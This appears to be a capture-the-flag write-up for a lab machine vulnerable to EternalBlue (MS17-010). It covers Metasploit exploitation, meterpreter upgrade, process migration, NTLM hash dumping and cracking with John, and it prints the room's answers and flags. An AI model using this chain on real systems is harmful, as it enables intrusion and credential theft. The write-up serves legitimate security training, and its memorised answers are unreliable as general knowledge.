 # Module: Blue Eternal

Author: Jackson Warren  
Date: August 30, 2022  

## Recon

Target IP = 10.10.132.200

### Nmap Scan
`$ nmap -sV -sC --script vuln -oN scans/nmap-10.10.132.200.out 10.10.132.200 -Pn`


How many ports are open with a port number under 1000?  
Answer: **3**

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)  
Answer: **MS17-010** - Google Eternal Blue Exploit

## Gain Access

Start Metasploit  

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)  
Answer: **exploit/windows/smb/ms17_010_eternalblue** -- search msfconsole for MS17-010


Show options and set the one required value. What is the name of this value? (All caps for submission)  

`$ use 0`  
`$ options`

Answer: **RHOSTS**

I also had to set LHOSTS to my tun0 IP

## Escalate

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
Answer: **post/multi/manage/shell_to_meterpreter**  

Select this (use MODULE_PATH). Show options, what option are we required to change?  

`$ use 0`
`$ options`

Answer: **SESSION**

Set the required option, you may need to list all of the sessions to find your target here.  
`$ session -l` - List sessions
`$ set SESSION 1` - Set session


List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

 **1288  692   spoolsv.exe**    x64   0        NT AUTHORITY\SYSTEM     C:\Windows\System32\spo
                                                                   olsv.exe
spoolsv.exe is great because it's the printer system and it always works with the architecture of the system, it's very stable, and if it does die you can easily restart it.  

## Cracking

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Answer: **Jon**

Copy this password hash to a file and research how to crack it. What is the cracked password?  
```
Blue git:(main) ✗ john jon.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (?)     
1g 0:00:00:00 DONE (2022-08-30 22:54) 2.000g/s 20400Kp/s 20400Kc/s 20400KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
```
Answer: **alqfna22**

## Find Flags!

Flag1? This flag can be found at the system root.  
```
$ cd /  
$ ls  
$ cat flag1.txt  
```
Answer: **access_the_machine**

*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.  

```
meterpreter > search / -f flag2.txt
Found 1 result...
=================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\Windows\System32\config\flag2.txt  34            2019-03-17 13:32:48 -0600
```

I had to cd through each directory until I got to config before I could cat the file, for some reason...

Answer: **flag{sam_database_elevated_access}**

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.  

`$ cd C:\Users\Jon\Documents`
`$ cat flag3.txt`

Answer: **flag{admin_documents_can_be_valuable}**







